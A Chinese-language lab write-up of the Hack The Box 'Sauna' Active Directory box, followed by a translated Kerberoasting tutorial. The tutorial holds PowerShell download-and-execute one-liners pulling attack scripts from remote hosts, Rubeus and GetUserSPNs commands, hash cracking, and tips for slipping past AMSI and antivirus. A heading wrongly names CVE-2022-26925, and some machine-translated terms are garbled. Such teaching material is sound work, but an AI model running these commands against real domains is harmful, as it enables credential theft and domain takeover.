


# 域渗透实战之 Sauna - 先知社区

域渗透实战之 Sauna

- - -

# 信息收集

## 端口扫描

首先去探测存在的端口，发现存在 53，80，135 等端口。

```plain
● 通过 TCP 托管 DNS 服务 - 版本：Microsoft DNS 6.1.7601 (1DB15D39)
● 端口 80 已打开并托管 HTTP 服务器 – Microsoft IIS httpd 10.0 – Egotistical Bank :: 主页
● 端口 88 已打开并托管 kerberos 服务。
● 端口 135 / 139 / 445 已开放，分别托管 RPC / NetBIOS / SMB 共享服务。
● 端口 389 / 3268 和 636 / 3269 已打开并分别托管 LDAP/S 服务
● 端口 464 是开放的，用于托管 Kerberos 密码更改服务，通常在 DC 上看到，通常没有太多兴趣。
● 端口 593 和 5722 已开放并托管 RPC 服务。
● 端口 5985 托管 WinRM 服务，如果找到凭据，这将很好。
● 端口 9389 托管 .NET 消息框架服务。
● 端口 49xx 托管高端口 RPC 服务。
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142248-293de59a-bb4a-1.png)

接着去看它的服务信息，发现它是一个 Windows 10 / Server 2016 / Server 2019 机器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142240-24204544-bb4a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142259-2f5792c8-bb4a-1.png)

访问主页，发现是一个银行页面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142306-33e32636-bb4a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142314-389d0c78-bb4a-1.png)

## 目录爆破

使用 gobuster 去爆破目录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142321-3cbe164e-bb4a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142332-4324eeb8-bb4a-1.png)

## LDAP 枚举

使用匿名 LDAP 搜索查找用户“hsmith”

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142338-47007a3e-bb4a-1.png)

用-b 'DC=EGOTISTICAL-BANK,DC=LOCAL'获取有关域的信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142346-4bbdea02-bb4a-1.png)

## DNS - TCP/UDP 53

尝试区域传输，发现 sauna.htb 都 egotistical-bank.local 未能返回任何内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142353-4feee2a2-bb4a-1.png)

# 漏洞利用

## CVE-2022-26925

在分配用户名时，大多数公司使用标准命名约定，例如<名字首字母><姓氏>。  
知道这一点后，我启动了一个 users.txt 文件，并使用一些不同的常见约定将用户名添加为 NTID。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142403-55c14990-bb4a-1.png)

kerbrute.py -users ./users.txt -dc-ip 10.10.10.175 -domain Egotistical-bank.local  
使用 kerbrute.py 枚举有效用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142414-5c835fa2-bb4a-1.png)

## 获取哈希值

运行 GetNPUsers.py 以查找可利用的用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142424-62585914-bb4a-1.png)

## 破解哈希

然后使用 hashcat 去破解 hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142433-67cb36f0-bb4a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142441-6c7db79a-bb4a-1.png)

## WinRM

使用 winrm 获取 shell，并获取 user.txt 用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142449-71223cee-bb4a-1.png)

Priv：fsmith –> svc\_loanmgr

## SMB 共享

使用 smbserver 去开启 smb 共享。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142458-7641b61e-bb4a-1.png)

然后建立共享文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142505-7a7e87f2-bb4a-1.png)

运行 winPEAS.exe 将结果写入共享：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142512-7ea78568-bb4a-1.png)

使用 crackmapexec 来验证用户的可用性。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142521-83e94232-bb4a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142528-88876c60-bb4a-1.png)

## WinRM 获取 shell

使用 winrm 来获取 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142536-8d567d3a-bb4a-1.png)

# Priv：svc\_loanmgr –> root

## Bloodhound 分析

运行 SharpHound.exe

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142545-92812b52-bb4a-1.png)

用 Bloodhound 攻克 DC 的最短路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142553-97228714-bb4a-1.png)

## DCSync 攻击

通过 TCP 445 和 135 以及高 RPC 端口与 DC 进行通信

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142559-9b1fce94-bb4a-1.png)

## WMI 获取 shell

并成功获取 root.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125142606-9f3946c2-bb4a-1.png)

# 总结

## Kerberoast

介绍  
Kerberoasting 是 Active Directory 环境中极其常见的攻击，其目标是设置了 SPN 值的 Active Directory 帐户。设置了 SPN（服务主体名称）的常见帐户是服务帐户，例如 IIS User/MSSQL 等。  
Kerberoasting 涉及使用 GetUserSPN's.py 之类的内容从 Windows 域机或 Kali Box 请求 Curb 服务票证 (TGS) 。TGS 的问题是，一旦 DC 查找目标 SPN，它就会使用目标用户帐户的 NTLM 密码哈希对 TGS 进行加密。  
从 Windows  
有多种方法可以枚举服务帐户并查找 Kerberoast 目标，因此我将在下面介绍几种方法，包括 Windows 计算机和 Linux 计算机。  
第一个是 PowerView.ps1 - 如果您现在还没有听说过 PowerView.ps1 并且您正在研究 Kerberos 攻击，那么您需要回顾一下......  
PowerView 是由 Harmj0y 创建的极其强大的.ps1，它使得使用 PowerShell 枚举和利用 AD 环境变得非常容易。尽管 Powershell 在当今时代受到防御者的严格监控，但它仍然非常有用。  
[https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)

## 枚举

首先让我们导入 PowerView.ps1 到内存中  
IEX (New-Object Net.WebClient).DownloadString('[http://werbserver:80/PowerView.ps1](http://werbserver/PowerView.ps1)')  
当然 AMSI 可能会发现这一点，WIN10 1803 但我会把逃避留给你自己。我的仓库中有很多绕过方法 h4cks，网上也有很多绕过方法。AMSI 只是字符串检测，所以很容易溜过去。  
现在，在加入域的计算机上内存中使用 PowerView，我们可以简单地运行

```plain
Get-DomainUser -SPN
$secpasswd = ConvertTo-SecureString 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('m0chan\user', $secpasswd)
```

```plain
Get-DomainUser -SPN -Credential $cred
```

就是这样！它将返回设置了 SPN 值的所有用户。

## 开发

现在，随着目标服务帐户在我们的范围内，我们实际上可以请求破解票证，这再简单不过了 PowerView.ps1  
只需简单地运行以下命令

```plain
Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat -Credential $cred
```

NTLM 这将返回使用目标帐户的哈希值加密的 SPN 票证。请记住，我选择 Hashcat 而不是 John，因为我使用 Nvidia 破解设备，但使用 Hashcat 效果更好。  
现在我们可以简单地破解类似的东西  
hashcat64.exe -a -m 13100 SPN.hash /wordlists/rockyou.txt  
当然，这是简单的破解攻击，因为它只是针对一个简单的单词列表，但如果这是在现实世界中，您将通过规则集和更可能的单词列表进行混合。

## Rubeus

其次，我们有 Rubeus，这是一个由 SpectreOps 的向导开发和发布的相对较新的工具。  
Rubeus 实际上是一种 Kerberos 攻击工具，我们将在本文中详细介绍它，它是用 C#/.NET 开发的，这意味着防御者更难检测到它，它是使用 Cobalt 之类的反射加载的，execute-assembly 或者 SILENTTRINITY.您也可以从以下位置反射加载它：PowerShell，但我将.NET 在以后的文章中更详细地介绍。  
[https://github.com/GhostPack/Rubeus\`](https://github.com/GhostPack/Rubeus%60)

## 枚举

现在默认情况下，我不相信 Rubeus 具有 Enumerate 简单地枚举具有 SPN 值集的用户的功能，但说实话，这对于 Kerberoasting 来说并不是困难的部分，只需使用一点 Powershell / LDAP Magic，您就可以找到您想要的内容。以下是一些示例。

```plain
get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate
dsquery * "ou=domain controllers,dc=yourdomain,dc=com" -filter "(&(objectcategory=computer)
(servicePrincipalName=*))" -attr distinguishedName servicePrincipalName > spns.txt
```

还有更多技术，例如 Get-DomainUser -SPN 上面讨论的技术以及许多其他方法，我将留给您想象。  
现在我们已经有了目标帐户，启动 Rubeus。

## 开发

要获得 Rubeus，您实际上需要 Visual Studio 2017 或任何可以编译的东西.NET。就我而言，我使用 Visual Studio 并自己构建一个程序集。幸运的是，目前 Rubeus 的默认版本仅被 Virus Total 上的一个 AV 供应商检测到，但是如果您的 AV 被标记，只需更改一些字符串和注释并重建项目，您的 AV 就会关闭。这就是开源 C# / .NET 项目的优点，更容易绕过防病毒解决方案。  
没有程序集/exe 的武装，我们可以简单地将其放在域用户上下文中的目标加入域计算机上并开始 Roasting。  
Rubeus Github 对它的所有功能以及它针对特定目标的能力 OU's Users 等等都有一个令人惊奇的解释，所以我会尽量不逐字复制它，而只是展示它的功能。  
首先我们可以尝试烤当前域中的所有用户

```plain
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast
```

Kerberoast 特定 OU 中的所有用户（如果组织在特定 OU 中拥有所有服务帐户，则很好）  
PS C:\\Users\\m0chan\\Desktop > .\\Rubeus kerberoast /ou:OU=SerivceAcc,DC=m0chanAD,DC=local  
这可能会生成大量输出，因此我们可以将所有哈希值输出到文件中，以便于管理和破解。  
/outfile:C:\\Temp\\TotallyNotHashes.txt  
测试特定用户或 SPN

```plain
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local
```

如果信任关系允许，您还可以在外部信任域中烤用户，但您可以查看 Rubeus Repo 以获取对此的完整说明。这个真的很酷。

## 调用-Kerberoast.ps1

我将在 Windows 部分讨论的最后一个脚本 Invoke-Kerberoast.ps1 远没有那么强大 Rubeus，Powerview 因此我不会像前面的部分那样将其分为枚举/利用。  
Invoke-Kerberoast.ps1。可以使用以下命令调用并执行 one-liner

```plain
PS C:\Temp > IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

# Download Invoke-Kerberoast.ps1 into Memory (AMSI May Flag)

IEX(new-object Net.WebClient).DownloadString("[https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module\_source/credentials/Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)")

# Invoke-Kerberoast and Output to Hashcat Format

```plain
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

## 从 Linux

Linux 中的 Kerberos 烘焙略有不同，因为我们很可能无论如何都没有对域进行身份验证，因此必须传递窃取的 Kerberos 票证以进行身份验证或域凭据。  
根据我的经验，我发现从加入域的机器进行 Kerberoasting 更容易，而且通常没有麻烦，但有时我们没有这个选择。  
要枚举具有值集的用户，我们可以使用很棒的脚本 SPN 之一 ImpacketsGetUserSPN's.py  
[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)  
如果您现在还没有听说过 Impacket，它是用于攻击 Windows 的 python 脚本的集合，并且在其存储库中包含一些非常危险的脚本。  
有了 GetUserSPNs.py 已经破解的 Domain Users 凭据，我们可以简单地运行以下命令  
m0chan@kali:/scripts/> python GetUserSPNs.py m0chanAD/pwneduser:pwnedcreds -outputfile hashes.kerberoast  
现在可以将输出的文件发送到 Hashcat 进行破解，在 Linux 上有其他破解方法，但在我所有的 Hacking 生涯中，我从来没有在 Linux 上尝试破解过愉快的时光。我发现在带有 NVIDIA 卡的 Windows 机器上使用 Hashcat 是最好的途径（个人而言）。

## 缓解/防御 Kerberoast

防御此问题的最有效技术当然是确保服务帐户具有极长的密码，即 32 位且复杂性极高的密码。  
就检测 Kerberoast 而言，它可能非常棘手，因为 TGS 请求票证是正常活动，但您可以 Audit Kerberos Service Ticket Operations 在“帐户登录”下启用以记录 TGS 票证请求。  
然而，由于这是正常操作，您会收到很多 Event 4769 警报 Event 4770  
Kerberos 基础知识  
Kerberos 是一种网络身份验证协议，其工作原理是向节点颁发票证，以允许根据权限级别访问服务/资源。  
Kerberos 在 Active Directory 中广泛使用，有时在 Linux 中使用，但实际上主要是在 Active Directory 环境中使用。  
TLDR：[https://www.roguelynn.com/words/explain-like-im-5-kerberos/](https://www.roguelynn.com/words/explain-like-im-5-kerberos/)  
我的目标是通过中高级概述来完成这篇文章，如果您想真正了解 Kerberos，我建议您研究一下 harmj0y 和 Sean Metcalf。他们是真正的巫师，知道每一个小细节。  
为了提供一个简短的概述，我想总结一下您可能会发现的常见 Kerberos 术语。  
服务器/客户端术语：  
● 客户端计算机 - 想要访问支持 Kerberos 身份验证的服务的计算机。  
● 服务机器 - 托管支持 Kerberos 身份验证的“服务”的服务器/计算机  
● KDC（密钥分发中心）- KDC 是 Active Directory 基础架构中非常重要的一部分，因为它负责身份验证和分发票证。在 AC 环境中，KDC 安装在域控制器 (DC) 上  
● SPN（服务主体名称） - 这是服务的名称，有时您可能有一个配置了 SPN 属性的用户帐户，该属性将其定义为服务帐户。SPN 的一个示例是。  
○ CIFS/SERVERNAME-2016RDS.m0chanAD.local  
○ MSSQL/MSSQLSERVER.m0chanAD.local

## 门票术语：

● 票证授予票证 (TGT) - 这是在每个用户基础上分配的票证，每个用户使用它向 KDC 进行身份验证，并发出票证请求，TGS 即服务票证  
● 票证授予服务器 (TGS) - KDC 的身份验证子集，用于在验证最终用户的 TGT 以及他们是否有权访问所请求的资源后颁发服务票证。  
● 服务票证 (ST) - 这是由 **TGS** 授予您的票证，用于对服务进行身份验证。  
轻微免责声明：在这篇文章中，我通常将服务票证 (ST) 称为 TGS 票证……就跟我说吧，好吧。你知道我的意思吗？  
现在我可以漫无目的地讲述请求 TGT、TGS Ticket、ST、加密等的完整过程，但我想将其保持在中高水平，如果您想要真实的深入信息。 
[https://www.roguelynn.com/words/explain-like-im-5-kerberos/](https://www.roguelynn.com/words/explain-like-im-5-kerberos/)
